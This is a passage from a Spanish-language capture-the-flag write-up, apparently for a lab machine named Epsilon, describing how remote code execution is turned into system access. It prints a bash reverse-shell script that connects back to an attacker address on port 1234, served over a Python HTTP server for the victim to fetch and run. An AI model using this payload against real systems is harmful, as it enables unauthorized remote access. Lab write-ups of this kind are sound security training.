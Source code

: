 ![](/imagenes/Epsilon/epsilon_12.png)

Vemos que tenemos RCE, vamos a ganar acceso al sistema, esto lo realizaremos como siempre. En primer lugar, tendremos el siguiente archivo llamado **index.html**:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/1234 0>&1
```

El cual nos permitirá ganar acceso al sistema, vamos a compartir este archivo a través de un servidor http con python, y desde la máquina víctima haremos una petición a este archivo y luego lo ejecutaremos para ganar acceso mediante nuestro netcat en escucha, vamos al `Burpsuite`:
